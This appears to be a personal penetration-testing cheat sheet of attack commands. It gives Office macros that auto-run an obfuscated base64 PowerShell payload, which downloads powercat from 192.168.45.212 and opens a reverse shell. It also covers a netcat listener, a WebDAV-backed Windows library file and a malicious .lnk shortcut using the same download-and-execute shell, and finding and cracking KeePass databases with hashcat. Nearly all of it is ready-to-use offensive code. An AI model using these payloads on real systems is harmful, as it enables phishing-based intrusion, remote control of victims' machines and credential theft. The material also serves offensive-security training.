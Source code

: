 # Macros
```
view -> macros element -> Macros in: Mymacro.doc -> Create 97-2003 word
```

Example Powershell
```
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro ()
' Comment Line
' github.com/steveirwincyber
	CreateObject("Wscript.shell").Run "powershell"



End Sub
```
Powercat
###  base64 this 
IEX(New-Object System.Net-WebClient).DownloadString('http://192.168.45.212/powercat.ps1');powercat -c 192.168.45.212 -p 8080 -e powershell UTF-16LE
python -m http.server /powercat/
nc -nlvp 8080
```
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro ()
' Comment Line
' github.com/steveirwincyber
	Dim Str As String

		Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUA"
		Str = Str + "dwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdA"
		Str = Str + "AtAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBh"
		Str = Str + "AGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5AD"
		Str = Str + "IALgAxADYAOAAuADQANQAuADIAMQAyAC8AcABvAHcAZQByAGMA"
		Str = Str + "YQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQ"
		Str = Str + "BjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMQAyACAALQBw"
		Str = Str + "ACAAOAAwADgAMAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAG"
		Str = Str + "wA"
	CreateObject("Wscript.Shell").Run Str

End Sub
```



# Windows Library
On Kali
```
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav
```
In WIndows Visual Studio
```
# file -> new text file config.library-ms

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.212</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription> 

```

shortcut
automatic_configuration.lnk
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.212:8000/powercat.ps1');
powercat -c 192.168.45.212 -p 4444 -e powershell"
```


# Keepass
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
keepass2john Database.kdbx > keepass.hash

hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

# Password Manager